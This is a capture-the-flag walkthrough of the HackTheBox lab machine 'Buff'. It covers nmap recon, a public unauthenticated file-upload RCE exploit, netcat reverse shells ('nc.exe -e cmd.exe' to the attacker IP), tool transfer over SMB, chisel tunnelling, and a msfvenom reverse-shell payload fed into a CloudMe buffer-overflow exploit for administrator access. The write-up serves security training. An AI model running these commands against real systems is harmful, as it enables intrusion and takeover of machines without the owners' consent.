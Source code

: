 # Buff [HTB](https://app.hackthebox.com/machines/263)
![buff-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/buff-01.png)


## Recon 

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 buff.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/ports-02.png)


Let's run a version detection scan againts this port:

```bash
nmap -p 8080 -sCV buff.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nmap-res-03.png)


We have the following:

+ An Apache/2.4.43 server on port 8080.


The nmap probing scripts have identified that the Apache server might have the `CONNECT` HTTP method enabled. This in effect allows the web server to act as a proxy server and make request to other target systems. I tried searching online for possible exploitaion strategies for this method, but I didn't find anything super clear, more theoretical stuff.


Based on the namp probing scripts we can also conclude that the Apache is powered by PHP/7.4.6, and that the target is probably running a Windows OS with an x64-bit architecture. 


### Apache port 8080


If we browse towards `http://buff.htb:8080/` we get the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/site-04.png)


The site seems to be offering gym services, there are four link at the top strip and a sign in form. Each of the four links leads to a different php script in the website's root directory. All of the scripts return read-only informational content, no place to input stuff as users. 


If click the `Contact` button though, we will get the following text:

![cms-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/cms-05.png)


At first I thought this was placed here by the creator of this box as some sort of troll, I didn't think this is an actual CMS. But I searched for this string on Google and I found an Unauthenticated Remote Code Execution exploit [here](https://www.exploit-db.com/exploits/48506). Wow..


In short, the `upload.php` doesn't check for a proper user session, which allows unauthiticated users to upload files. By reveiwing the source of `upload.php`, methods were identified for bypassing the MIME type checks, the file extensions checks, and the content-type checks. 


I tried to find a way to exploit this manaully, but the file upload requiers a dictionary with specific strucutre and objects for it to be accepted by the server. I decided to use the python exploit script instead of finding a way to pull this off with `curl` from the command-line.


After downloading the exploit I run and get a shell:


![shell-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/shell-06.png)


But I didn't like this shell, I wasn't able to perform simple tasks like changing directories. Instead, I decided to transfer a copy of `nc64.exe` over to the target using an SMB server. 


First, I grab a copy of `nc64.exe` to my working directory and start the SMB server on my Kali with:

```bash
impacket-smbserver -smb2support -debug buff .
```

Then, I connect to the SMB server from the target and copy the file over:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\nc64.exe nc.exe
```

![copy-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-07.png)


Now I start my local listener on my Kali with:

```bash
rlwrap nc -lnvp 9009
```

And coonect from the target using:

```cmd
nc.exe -e cmd.exe 10.10.14.54 9009
```

Which gives me a shell:


![nice-shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nice-shell-08.png)


## Privilege Escalation


After landing on the machine I start hunting down quick wins. I list any permissions we have using `whoami /priv` but we don't have any interesting permissions. I look for any stored credentials using `cmdkey /list` but there are none. I also check for the presence of `Always Installed Elevated` vulnerability but I dont find any. 


So I shift gears and start looking around the filesystem, I start with `shaun`'s home directory at `C:\Users\shaun`. Inside the `Downloads` folder I see something interesting:

![downloads-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/downloads-09.png)


I search for this executable online and I find a Buffer-Overflow exploit for it on [ExploitDB](https://www.exploit-db.com/exploits/48389). From what I understand `CloudMe Sync` is a synchronization application which syncs your local storage with the cloud storage, and it is listening on port 8888.


If we list the running processes on the target system with `netstat -ano` we can see the port is open:

![port-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/port-10.png)


The service must run as adminstrator, otherwise the exploit won't help us escalate privileges. I tried to list the running processes on the system in order to make sure this service is actually running as the administrator, but I was deinded access. Even though I wasn't able to make sure the service is running as the admin, I decided to bet on it. 


To try and exploit this, we first need to tunnel the service to our attack machine, I decided to use [chisel](https://github.com/jpillora/chisel).


I download an x64-bit executable chisel client for Windows using [this link](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz), I extract it with `gunzip -d <archive>`.


Then, I tried to transfer the file using a python web server and downloading it from the target using an `certutil` but I was denied access. I also tried other methods but they all failed. 


So I deicded to try the SMB method again, but when I connect to my share from the netcat shell there are issues establishing the connection. So I decided to use the previous shell we had, which did mange to get files via SMB.


I start the SMB server on my Kali same as before:

```bash
impacket-smbserver -smb2support -debug buff .
```

I connect to the share from the target and download the files:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\chisel.exe C:\Users\shaun\chisel.exe
```

![copy-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-11.png)


And here it is in `shaun`'s home folder:

![found-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/found-12.png)


Now we are ready to setup the tunnel. First, on the Kali, we need to start the server with:

```bash
chisel server -p 8001 --reverse
```

Then, from the target establish the tunnel using:

```cmd
chisel.exe client 10.10.14.54:8001 R:8001:127.0.0.1:8001
```

This will open port 8888 on our Kali, and transfer the traffic from target's localhost:8888 to it. 

![client-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/client-13.png)


After connecting the client, I receive the connetion on the server:

![server-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/server-14.png)


If we list the open ports on our Kali machine, we can see the cleint/server connection is established on port 8001, and the tunnel for port 8888 is open our Kali machine:

![port-14.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/netstat-14.5.png)


With the tunnel established we can try the [exploit](https://www.exploit-db.com/exploits/48389). After downloading it, we need to change the payload for the buffer-overflow, as currently it starts `calc.exe`, which is not super useful.


At first I tried an x64-bit payload, which faild. But an x84 bit payload with the below syntax works:
 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.54 LPORT=9999 -b '\x00\x0A\x0D' -f python
```

![venom-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/venom-15.png)


I copy the entier output and place it in the exploit:

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/exploit-16.png)


I also change the variable names below to match the output from msfvenom:

![vars-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/vars-17.png)


Now I start the local lisetner for the connection:

```bash
rlwrap nc -lnvp 9999
```

And I execute the buffer-opverflow exploit with:

```bash
python buffer-overflow.py
```

The exploit executes with no issues, and on my netcat listener I recieve a shell as the administrator:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/root-18.png)
